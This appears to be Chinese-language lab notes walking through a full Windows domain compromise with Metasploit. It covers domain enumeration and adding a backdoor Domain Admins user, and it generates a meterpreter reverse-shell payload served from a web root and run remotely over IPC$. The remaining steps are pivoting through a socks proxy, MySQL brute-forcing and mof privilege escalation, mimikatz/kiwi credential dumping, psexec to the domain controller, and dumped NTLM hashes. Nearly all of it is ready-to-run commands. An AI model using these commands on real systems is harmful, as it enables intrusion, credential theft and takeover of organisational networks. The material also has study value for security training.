 拓扑图：![image-20210505131210645](../acess/image-20210505131210645.png)

域的简介

[https://baike.baidu.com/item/windows%E5%9F%9F/1492318](https://baike.baidu.com/item/windows域/1492318)

常用的域命令 

 查看当前网卡配置信息,包括所属域以及IP段

```
ipconfig /all
```

 查看域

```
net view /domain
```

查看当前域中的计算机

```
net view
```

查看CORP域中的计算机

```
net view /domain:CORP
```

Ping计算机名可以得到IP

```
ping Wangsong-PC
```

获取所有域的用户列表

```
net user /domain
```

 获取域用户组信息

```
net group /domain
```

 获取当前域管理员信息

```
net group "domain admins" /domain
```

 查看域时间及域服务器的名字

```
net time /domain
```

 这个要域管理权限才可以的

 添加普通域用户

```
net user hack hack /add /domain
```

 将普通域用户提升为域管理员

```
net group "Domain Admins" hack /add /domain
```

建立ipc连接 运行exe文件

```
net use \\10.10.1.2\ipc$ "xxx$112233A." /user:moonsec\Administrator
net use \\ip\c$
```

Copy sd.exe \\ip\c$ (其中sd.exe是VEIL生成的meterpreter)

```
net time \\ip
at \\10.10.1.2 18.32 c:\ss.exe
```



metasploit 生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

提升权限

```bash
getprivs
getsystem
```

域 wzxmt.com

![image-20210505152755435](../acess/image-20210505152755435.png)

 增加路由

```bash
run autoroute -s 10.10.1.0/24
```

 检测存活IP

```bash
run post/windows/gather/arp_scanner RHOSTS=10.10.1.0/24
run post/multi/gather/ping_sweep RHOSTS=10.10.1.0/24
```

![image-20210505131948992](../acess/image-20210505131948992.png)

后台运行

```bash
background
```

端口扫描

```bash
use scanner/portscan/tcp
set rhosts 10.10.1.3
exploit
```

socket代理 用namp 扫描内网的ip的服务(**注意需要先添加路由**)

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描10.10.1.4的服务器端口

```bash
proxychains nmap -sT -Pn 10.10.1.3 --open -oN 10.10.10.0.txt
```

![image-20210505152948837](../acess/image-20210505152948837.png)通过扫描得到3306端口存在mysql服务

mysql登录密码破解

```bash
use scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /root/passlist.txt
set RHOSTS 10.10.1.3
exploit
```

mysql_mof攻击提权

```bash
use windows/mysql/mysql_mof
set payload windows/meterpreter/bind_tcp
set PASSWORD zkeys
set rhost 10.10.1.3
set USERNAME root
exploit
```

 通过mysql mof提权得到域客户端2003的sessions 

 WIN-723O786H6KU.moonsec.com 10.10.1.2 这个就是域控

域客户端2003 hash数据

```bash
Administrator:500:7473799d16fd7eefc81667e9d738c5d9:befccf58421ac6b3b2815de02cac1616:::
ASPNET:1006:80b60fc868a0cbc3bd0107c50c110a28:e04a5c063acf0ac96c00809a3ea194cf:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WWW-7D165A978F4:1000:23a1de9066032b6646bb5d5cc9f4c859:c53193935ad813f22fc1356905671c62:::
```

 因为普通域用户 需要更改系统信息 都需要通过域管理员的操作，要输入帐号和密码

密码收集（kiwi）

加载kiwi模块(需要SYSTEM权限)

```bash
load kiwi  
```

查看kiwi模块的使用

```bash
help kiwi
```

查看明文

```
creds_all
```

列举所有msv凭据

```
 creds_msv
```

列举所有kerberos凭据

```
creds_kerberos
```

 现在想要获取域控sessions 

```bash
use exploit/windows/smb/psexec
set RHOST 10.10.1.2
set SMBDomain moonsec
set SMBUser administrator
set SMBPass xxx123456..
set payload windows/meterpreter/bind_tcp
exploit
```

获取hash

```
run post/windows/gather/hashdump
```

hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f8db9dd8aa13fa4e008f693fb7c56935:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

开启域控3389

```bash
run getgui  -e
```

 得到域控的权限
